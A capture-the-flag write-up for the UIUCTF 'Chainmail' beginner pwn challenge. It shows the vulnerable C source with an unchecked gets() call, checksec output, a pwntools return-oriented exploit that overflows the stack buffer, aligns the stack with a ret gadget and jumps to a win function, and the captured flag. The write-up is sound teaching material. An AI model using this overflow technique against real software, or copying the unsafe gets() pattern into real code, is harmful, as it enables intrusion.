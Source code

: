 # Chainmail

Categories: pwn, beginner

Description:
> I've come up with a winning idea to make it big in the Prodigy and Hotmail scenes (or at least make your email widespread)!
>
>`$ nc chainmail.chal.uiuc.tf 1337`
>
>author: Emma
>
>[chal](resources/chal) [chal.c](resources/chal.c) [Dockerfile](resources/Dockerfile)

**Tags:** pwn, stack alignment, trivial

## Takeaways

* When you get a SIGSEGV in a `movaps XMMWORD PTR [rsp+0x10], xmm1` instruction, add a NOP gadget to your ROP chain. Your stack is not 16-byte aligned when `movaps` is executed and that's why you get a SIGSEGV.

## Solution

This is a classic ROP to win challenge. Here is the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void give_flag() {
    FILE *f = fopen("/flag.txt", "r");
    if (f != NULL) {
        char c;
        while ((c = fgetc(f)) != EOF) {
            putchar(c);
        }
    }
    else {
        printf("Flag not found!\n");
    }
    fclose(f);
}

int main(int argc, char **argv) {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    char name[64];
    printf("Hello, welcome to the chain email generator! Please give the name of a recipient: ");
    gets(name);
    printf("Okay, here's your newly generated chainmail message!\n\nHello %s,\nHave you heard the news??? Send this email to 10 friends or else you'll have bad luck!\n\nYour friend,\nJim\n", name);
    return 0;
}
```

Let's identify the binary:

```bash
nikos@ctf-box:~$ checksec --file ./chal
[*] '~/chal'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

This is a non-pie binary, we have a win function `give_flag`, a stack buffer overflow since the unsafe function `gets` is used, and no stack canary. We simply find the address of `give_flag` in the binary, and ROP there:

```python
from pwn import *
context.binary = elfexe = ELF('./chal')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([elfexe.path] + argv, elfexe.path, *a, *kw)
    else:
        target = process([elfexe.path] + argv, *a, **kw)
    return target

if args['REMOTE']:
    io = remote('chainmail.chal.uiuc.tf', 1337)
else:
    io = start(arguments)

give_flag__addr = 0x401216   # give_flag
nop_gadget__addr  = 0x401287 # ret - stack alignment
io.send(b'A'*64)
io.send(b'B'*8)
io.send(p64(nop_gadget__addr))
io.send(p64(give_flag__addr))
io.send(b'\n')

io.interactive()
io.close()
```

And we get the flag!

`uiuctf{y0ur3_4_B1g_5h0t_n0w!11!!1!!!11!!!!1}`
